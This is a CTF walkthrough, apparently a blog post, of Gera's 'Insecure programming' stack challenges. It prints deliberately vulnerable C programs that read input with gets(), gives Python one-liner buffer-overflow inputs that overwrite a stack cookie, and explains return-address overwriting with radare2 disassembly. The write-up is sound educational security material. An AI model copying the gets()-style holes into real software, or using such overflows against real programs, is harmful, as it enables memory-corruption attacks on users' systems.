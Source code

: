 ```yaml
---
layout: post
category : walkthrough
tags : [hacking, ctf, spoiler, writeup, crackme]
---
```


## Introduction
In this post we will take a look at some of Gera's Insecure programming
challenges. These are a popular set of computer security challenges
flying around the web. We will look at the challenges called stack1.c
up to stack5.c
We compile everything with `gcc -m32 stackn.c -o stackn.o`, where n
is from 1 to 4. This says to gcc that we want a 32-bit binary.

## Stack1.c
{% highlight C %}
/* stack1-stdin.c                               *
 * specially crafted to feed your brain by gera */

#include <stdio.h>

int main() {
	int cookie;
	char buf[80];

	printf("buf: %08x cookie: %08x\n", &buf, &cookie);
	gets(buf);

	if (cookie == 0x41424344)
		printf("you win!\n");
}
{% endhighlight %}
As we can see the program allocates an integer and an array buf of 80
bytes on the stack and copies stdin into buf. That is already
everything. If we get the integer to change to 0x41424344 then we win.
0x41424344 converted to ASCII is ABCD, by the way.
We know that the stack grows in direction of the small addresses, so
the memory layout is likely as follows:

```
low addresses
--
buf[0]
--
...
--
buf[79]
--
4 Byte cookie
--
high addresses
```
That is we need to insert 80 bytes of junk and then "DCBA" (because of
endianness) to overwrite the cookie.

```
$ python -c 'print("A"*80+"DCBA")' | ./stack1.o
buf: ffe7697c cookie: ffe769cc
you win!
```

## Stack2.c
{% highlight C %}
/* stack2-stdin.c                               *
 * specially crafted to feed your brain by gera */

#include <stdio.h>

int main() {
	int cookie;
	char buf[80];

	printf("buf: %08x cookie: %08x\n", &buf, &cookie);
	gets(buf);

	if (cookie == 0x01020305)
  		printf("you win!\n");
}
{% endhighlight %}
This is basically the same, but this time we need to write 0x01020305
over the cookie.

```
$ python -c 'print("A"*80+"\x05\x03\x02\x01")' | stack2.o 
buf: ffbb34ec cookie: ffbb353c
you win!
```
## Stack3.c
{% highlight C %}
/* stack3-stdin.c                               *
 * specially crafted to feed your brain by gera */

#include <stdio.h>

int main() {
	int cookie;
	char buf[80];

	printf("buf: %08x cookie: %08x\n", &buf, &cookie);
	gets(buf);

	if (cookie == 0x01020005)
  		printf("you win!\n");
}
{% endhighlight %}
Again the same? Yes. But this time, the interesting thing is that we
have a 0x00. Normally this is the Null-terminator. Strings in C end
with 0x00 because this is the only way the computer can see that he
has encountered the end of the string and can stop reading.
Interestingly 'gets' does not care.

```
$ python -c 'print("A"*80+"\x05\x00\x02\x01")' | stack3.o 
buf: ffd5998c cookie: ffd599dc
you win!
```
## Stack4.c
{% highlight C %}
/* stack4-stdin.c                               *
 * specially crafted to feed your brain by gera */

#include <stdio.h>

int main() {
	int cookie;
	char buf[80];

	printf("buf: %08x cookie: %08x\n", &buf, &cookie);
	gets(buf);

	if (cookie == 0x000d0a00)
		printf("you win!\n");
}
{% endhighlight %}
Ah, the same stuff again. Piece of cake.

```
$ python -c 'print("A"*80+"\x00\x0a\x0d\x00")' | stack4.o 
buf: ff8efd3c cookie: ff8efd8c
```
Whoa, what happened? We are doomed.

Okay, according to the man-page gets reads until a newline or EOF is
encountered. Unfortunately the combination \x0a\x0d when ASCII-encoded
is a newline. We need to think of something else.
First let us recompile the binary with `gcc -g -fno-stack-protector -m32
stack4.c -o stack4.o`. The -g enables debug symbols to ease our lives,
-fno-stack-protector disables stack canaries, which are a security
mechanism. This also eases what we intend to do.
Let us take a look at the binary:

```
$ r2 -A stack4.o 
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[ ] [*] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan))
 -- R2 loves everyone, even Java coders, but less than others
 [0x08048370]> pdf @main
....
|           0x0804849b      e890feffff     call sym.imp.gets
|           0x080484a0      83c410         add esp, 0x10
|           0x080484a3      8b45f4         mov eax, dword [ebp - local_ch] ; stack4.c:13  if (cookie == 0x000d0a00) ; .//stack4.c:13
|           0x080484a6      3d000a0d00     cmp eax, 0xd0a00
|       ,=< 0x080484ab      7510           jne 0x80484bd
|       |   0x080484ad      83ec0c         sub esp, 0xc                ; stack4.c:14   printf("you win!\n"); ; .//stack4.c:14  .if (cookie == 0x000d0a00)
|       |   0x080484b0      686c850408     push str.you_win_ ; str.you_win_ ; "you win!" @ 0x804856c
|       |   0x080484b5      e886feffff     call sym.imp.puts
|       |   0x080484ba      83c410         add esp, 0x10
|       |   ; JMP XREF from 0x080484ab (sym.main)
|       `-> 0x080484bd      b800000000     mov eax, 0
|           0x080484c2      8b4dfc         mov ecx, dword [ebp - local_4h_2] ; stack4.c:15 } ; .//stack4.c:15  ..printf(\"you win!\n\");
....
```
We can see that there is a comparison (cmp) with the value of the cookie and if they are not equal, we jump over the block with the "you win"-string.
Let me explain to you something I did not mention earlier. When gets is called
in 0x0804849b, the program pushes the current location of the instruction
pointer to the stack. It needs to know where to continue execution
after the puts routine. Further it needs to know where the previous
stack frame started, so it also remembers a frame pointer which points
towards the previous stack frame.
Thus our stack layout from above actually is as follows:

```
low addresses
--
buf[0]
--
...
--
buf[79]
--
4 Byte cookie
--
frame pointer
--
return address
--
high addresses
```
If we craft a special string we can overwrite the return address.
Which return address would we like? 0x080484b0 seems like a good
choice, since then we pass over the evil jump.

Well, this is left as an easy exercise for the determined reader.
You would not learn anything more, if i give you the code.
If you get stuck, think about endianness.
